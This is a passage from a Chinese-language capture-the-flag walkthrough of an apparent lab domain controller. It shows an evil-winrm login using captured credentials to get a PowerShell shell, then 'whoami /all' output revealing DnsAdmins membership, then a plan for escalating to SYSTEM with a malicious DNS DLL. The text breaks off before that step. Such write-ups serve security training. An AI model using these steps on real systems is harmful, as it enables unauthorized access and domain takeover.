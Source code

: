 ## 3. 获得初始 Shell

利用这组意外获得的凭据，我们尝试通过之前发现的 WinRM 服务 (端口 5985) 登录目标主机。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ evil-winrm -i 192.168.205.149 -u 'tindalos' -p 'Th3C@ll0fCtHu1hu!'
                                        
Evil-WinRM shell v3.7
...                                     
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\tindalos\Documents>
```
连接成功！我们获得了一个属于域用户 `bicker\tindalos` 的交互式 PowerShell Shell，完成了初步突破。

# **三、权限提升**

## 1. 内部信息收集与态势感知

立足于当前 Shell，首要任务是全面了解 `tindalos` 用户的权限和在域中的角色。

```powershell
*Evil-WinRM* PS C:\Users\tindalos\Documents> whoami /all

用户信息
----------------
用户名          SID
=============== ============================================
bicker\tindalos S-1-5-21-298176814-2846777796-698167141-1103

组信息
-----------------
组名                                        类型   SID                                          属性
=========================================== ====== ============================================ ======================================
...
BICKER\DnsAdmins                            别名   S-1-5-21-298176814-2846777796-698167141-1101 必需的组, 启用于默认, 启用于组, 本地组
...
```
**关键发现：** `whoami /all` 的输出显示，用户 `tindalos` 隶属于 `DnsAdmins` 组。这是一个极度危险的内置组，其成员通常可以通过滥用 DNS 服务配置来实现权限提升至域控的 `SYSTEM`。

## 2. 提权路径分析：两条道路

基于 `DnsAdmins` 的权限，我们有两条提权路径可选：

1.  **捷径（高噪音）：** 直接配置恶意 DLL，然后通过重启整个靶机来触发执行。此方法简单粗暴，但动静巨大，在真实环境中应极力避免。
2.  **预期解（低噪音）：** 深入挖掘信息，寻找一个拥有重启 DNS 服务权限的用户，通过一系列横向移动，最终在不重启服务器的情况下触发漏洞。

## 3. 提权路径一：捷径（重启靶机）
